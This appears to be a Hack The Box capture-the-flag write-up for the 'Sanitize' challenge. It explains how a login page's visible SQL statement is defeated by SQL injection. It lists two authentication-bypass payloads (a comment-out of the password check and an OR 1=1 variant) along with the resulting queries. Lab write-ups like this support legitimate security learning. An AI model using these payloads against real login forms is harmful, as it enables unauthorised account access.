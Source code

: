 ```yaml
---
title: "HTB: Sanitize"
last_modified_at: 2021-11-08T21:19:00+01:00
categories:
  - HTB
tags:
  - Easy-Challenge
  - Web
  - OWASP Top 10
  - SQLi
---
```


# Quick summary
Really easy challenge containing `SQLi` (SQL Injection) where the SQL Statement is visible on the webpage.

## Description
> Can you escape the query context and log in as admin at my super secure login page?

# Enumeration

Visiting the website:
![Startpage](/assets/htb/sanitize/startpage.png)

Checking the Source Code reveals that the title being `SQLi` meaning `SQL Injection`.<br>
![Startpage Title](/assets/htb/sanitize/startpage_header.png)

Trying to login using `admin`:`admin` reveals a meme and the full SQL statement at the bottom of the page:
![Think outside the box meme](/assets/htb/sanitize/think_outside_box.png)

# Exploit

Since the full SQL statement can be seen on the page it's easy to get the payload right.

## Payload 1
username: `admin' -- -`<br>
password: `a`

SQL Statement becomes:
```sql
SELECT * FROM users WHERE username = 'admin'-- - and password = a
```
The SQL statement controls that the username is `admin` and the password part is commented out, meaning all that's needed is a correct username.

## Payload 2
If the username is unknown, the following payload can be used instead:

username: `eplots' OR 1=1;-- -`<br>
password: `a`

SQL Statement becomes:
```sql
SELECT * FROM users WHERE username = 'eplots' OR 1=1;-- - AND password = 'a'
```

# Pwned confirmation
![Pwned confirmation](/assets/htb/sanitize/sanitize_pwned.png)